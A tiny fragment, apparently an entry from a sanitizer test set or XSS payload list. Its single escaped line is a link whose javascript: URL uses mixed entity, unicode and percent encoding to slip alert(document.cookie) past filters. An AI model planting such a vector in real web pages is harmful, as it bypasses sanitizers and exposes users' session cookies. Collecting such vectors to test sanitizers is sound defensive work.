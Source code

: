 -a-href--javascript-colon--u0061--x6C---101-72t-lpar-document.cookie-rpar----button-
====================================================================================

&lt;a href="javascript&amp;colon;\u0061&amp;#x6C;&amp;#101%72t&amp;lpar;document.cookie&amp;rpar;">&lt;button>
